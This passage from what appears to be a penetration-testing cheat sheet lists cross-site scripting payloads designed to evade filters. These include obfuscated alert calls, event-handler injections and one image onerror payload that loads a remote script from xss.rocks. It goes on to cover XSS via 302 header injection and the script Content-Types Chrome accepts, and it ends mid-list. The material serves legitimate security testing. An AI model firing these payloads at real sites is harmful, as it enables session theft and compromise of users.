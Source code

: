 ```markup
<script>$=1,\u0061lert($)</script>
<</script/script><script>eval('\\u'+'0061'+'lert(1)')//</script>
<</script/script><script ~~~>\u0061lert(1)</script ~~~>
</style></scRipt><scRipt>alert(1)</scRipt>
<img src=x:prompt(eval(alt)) onerror=eval(src) alt=String.fromCharCode(88,83,83)>
<svg><x><script>alert('1'&#41</x>
<iframe src=""/srcdoc='<svg onload=alert(1)>'>
<svg><animate onbegin=alert() attributeName=x></svg>
<img/id="alert('XSS')\"/alt=\"/\"src=\"/\"onerror=eval(id)>
<img src=1 onerror="s=document.createElement('script');s.src='http://xss.rocks/xss.js';document.body.appendChild(s);">
(function(x){this[x+`ert`](1)})`al`
window[`al`+/e/[`ex`+`ec`]`e`+`rt`](2)
document['default'+'View'][`\u0061lert`](3)
```

### XSS with header injection in a 302 response

If you find that you can **inject headers in a 302 Redirect response** you could try to **make the browser execute arbitrary JavaScript**. This is **not trivial** as modern browsers do not interpret the HTTP response body if the HTTP response status code is a 302, so just a cross-site scripting payload is useless.

In [**this report**](https://www.gremwell.com/firefox-xss-302) and [**this one**](https://www.hahwul.com/2020/10/03/forcing-http-redirect-xss/) you can read how you can test several protocols inside the Location header and see if any of them allows the browser to inspect and execute the XSS payload inside the body.\
Past known protocols: `mailto://`, `//x:1/`, `ws://`, `wss://`, _empty Location header_, `resource://`.

### Only Letters, Numbers and Dots

If you are able to indicate the **callback** that javascript is going to **execute** limited to those chars. [**Read this section of this post**](./#javascript-function) to find how to abuse this behaviour.

### Valid `<script>` Content-Types to XSS

(From [**here**](https://blog.huli.tw/2022/04/24/en/how-much-do-you-know-about-script-type/)) If you try to load a script with a **content-type** such as `application/octet-stream`, Chrome will throw following error:

> Refused to execute script from ‘[https://uploader.c.hc.lc/uploads/xxx'](https://uploader.c.hc.lc/uploads/xxx') because its MIME type (‘application/octet-stream’) is not executable, and strict MIME type checking is enabled.

The only **Content-Type**s that will support Chrome to run a **loaded script** are the ones inside the const **`kSupportedJavascriptTypes`** from [https://chromium.googlesource.com/chromium/src.git/+/refs/tags/103.0.5012.1/third\_party/blink/common/mime\_util/mime\_util.cc](https://chromium.googlesource.com/chromium/src.git/+/refs/tags/103.0.5012.1/third\_party/blink/common/mime\_util/mime\_util.cc)

```c
const char* const kSupportedJavascriptTypes[] = {
    "application/ecmascript",
    "application/javascript",
    "application/x-ecmascript",
    "application/x-javascript",
    "text/ecmascript",
    "text/javascript",
    "text/javascript1.0",
    "text/javascript1.1",
    "text/javascript1.2",
    "text/javascript1.3",
    "text/javascript1.4",
    "text/javascript1.5",
```